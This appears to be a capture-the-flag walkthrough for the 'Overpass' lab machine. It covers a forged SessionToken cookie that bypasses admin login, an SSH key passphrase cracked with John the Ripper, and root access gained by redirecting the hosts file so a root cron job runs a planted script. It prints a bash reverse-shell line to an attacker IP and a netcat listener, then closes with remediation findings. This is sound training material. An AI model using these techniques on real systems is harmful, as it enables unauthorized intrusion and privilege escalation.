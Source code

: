 # Overpass

- [Overpass](#overpass)
  - [Overview](#overview)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
  - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Walkthrough for Overpass - this challenge has no questions to answer, just the user and root flag.

## Service Enumeration
A port scan reveals the machine is running SSH and a web server on port 80.

<img src="images/enum/nmap_scan.png" alt="Port scan results" width="60%" height="60%"> <br>

Navigating to `http://10.10.180.142` brings us to the Overpass homepage.

<img src="images/enum/overpass_homepage.png" alt="Overpass homepage" width="50%" height="50%"> <br>

Start a web directory scan.
```
feroxbuster -u http://10.10.180.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -n -r -t 75 --smart
```

While the scan runs, look around the site.

The Downloads page (`/downloads`) contains binaries for the Overpass application as well as the source code and a build script. Let's download them all. 

Note the *OpenBSD x86-64* link incorrectly points to the MacOS binary. This is fine.

<img src="images/enum/overpass_downloads_page.png" alt="Overpass downloads" width="25%" height="25%"> <br>

`buildscript.sh` has some hardcoded directories, showing the web server may be hosted in a user's home directory. 

<img src="images/enum/overpass_buildscript.png" alt="Overpass build script" width="50%" height="50%"> <br>

The web directory scan found an interesting page: `/admin`. <br>

<img src="images/enum/web_dir_scan.png" alt="Web directory scan results" width="60%" height="60%"> <br>

As expected, the Administrator area (`/admin`) presents a login form.

<img src="images/enum/overpass_admin_panel.png" alt="Overpass administrator login page" width="25%" height="25%"> <br>

The page's source code has a reference to `/login.js`.

<img src="images/enum/overpass_login_js.png" alt="Overpass login.js" width="15%" height="15%"> <br>

`login.js` contains a function named *login()* that submits the client credentials `/api/login`. However, it appears that if a client has a cookie named `SessionToken` it passes the authentication, regardless of the cookie's value.

<img src="images/enum/login_js_login_function.png" alt="login.js vulnerable function" width="35%" height="35%"> <br>

## Low-Privilege Access
Create a cookie named `SessionToken`. In this case, the value isn't important.

<img src="images/lowpriv/create_sessiontoken_cookie.png" alt="Forge SessionToken cookie" width="25%" height="25%"> <br>

Refresh `/admin` to find a message from Paradox and the private SSH key for James. If it's still displaying the login page, make sure the Username and Password fields are empty and then try again.

<img src="images/lowpriv/james_admin_panel.png" alt="James SSH key in admin panel" width="35%" height="35%"> <br>

The message mentions a password, indicating there may be a passphrase needed to use the key.

Save the key to a text file and set permissions to read-only.
```
chmod 600 james-rsa.key
```

Convert the key so it can be read by John the Ripper and crack it.
```
ssh2john james-rsa.key > james-rsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt james-rsa.john
```

<img src="images/lowpriv/james_ssh_cracked.png" alt="Cracked James SSH key" width="20%" height="20%"> <br>

The passphrase is `james13`.

Start an SSH connection as `james` using the private key. Enter the passphrase when prompted. 
```
ssh -i james-rsa.key james@10.10.180.142
```

<img src="images/lowpriv/james_ssh_login_success.png" alt="SSH access as james" width="30%" height="30%"> <br>

The flag is found at `/home/james/user.txt`.

## Root Access
The system cron table (`/etc/crontab`) has a job configured to run every minute where `root` will download and run the build script from the Overpass website. The download is done with a web request to an FQDN.

<img src="images/privesc/crontab_root.png" alt="Scheduled job as root" width="40%" height="40%"> <br>

Also notable is the hosts file being world-writable. `overpass.thm`, the FQDN mentioned in the crontab entry, is mapped to the local host.

<img src="images/privesc/hosts_file_permissions.png" alt="World-writable hosts file" width="30%" height="30%"> <br>

This presents a chance for a remote file inclusion (RFI). By overwriting the hosts file entry with own IP, Overpass would reach out to the attacking machine to grab `buildscript.sh`, instead of the real location.

On the attacking machine, choose a location to be the web server's root directory. For example: `/tmp`.

Create the `downloads` directory and then `src` underneath, matching the path of the real build script.
```
mkdir downloads
mkdir downloads/src
```

In `downloads/src`, create `buildscript.sh` with a reverse shell payload inside.
```
bash -c 'bash -i >& /dev/tcp/10.13.34.103/443 0>&1'
```

<img src="images/privesc/buildscript_malicious.png" alt="buildscript.sh with rev shell" width="30%" height="30%"> <br>

Start a web server and Netcat listener.
```
python3 -m http.server 80

nc -nlvp 443
```

Back on Overpass, modify `/etc/hosts` so that the attacking IP maps to overpass.thm. Comment out the original entry.
```bash
#127.0.0.1 overpass.thm
XX.XX.XX.XX overpass.thm
```

<img src="images/privesc/hosts_file_overwrite.png" alt="Add malicious entry to hosts file" width="30%" height="30%"> <br>

The shell will appear once the job runs.

<img src="images/privesc/shell.png" alt="Root shell" width="40%" height="40%"> <br>

The flag is found at `/root/root.txt`.

## Findings and Recommendations
**Broken Access Controls**

An unauthenticated user can gain access to the admin panel (`/admin`) using a forged `SessionToken` cookie because credentials are not properly validated. The value can be anything as long as the cookie is presented. Knowledge of a valid username is also not required.

**Unsecured Credentials**

An unsecure SSH key with a weak passphrase was used to gain intial access to the server. Ensure that private SSH keys are stored in a secure location and are protected with a strong passphrase.

A password from an Overpass vault was obtained without authentication. Ensure that contents inside a password vault cannot be easily viewed even with access to the vault file.

**Insecure File Permissions**

Editing the hosts file (`/etc/hosts`) resulted in Overpass talking to an attacker-controlled machine instead of its intended destination. This allowed malicious code to be delivered and was part of the privilege escalation process. Review permissions for the hosts file and ensure it is not world-writable.

**Insecure Scheduled Job**

A scheduled job ran as `root`, reaching out to a fully-qualified domain name (FQDN) to download and execute a shell script. Details of the job were world-readable. With knowledge of the file path, a malicious version of the script was hosted in a web server with the same directory structure.  After modifying the hosts file, the server downloaded and executed a reverse shell, providing root access.

If possible, use a service account to run jobs and avoid configuring them in the global cron table.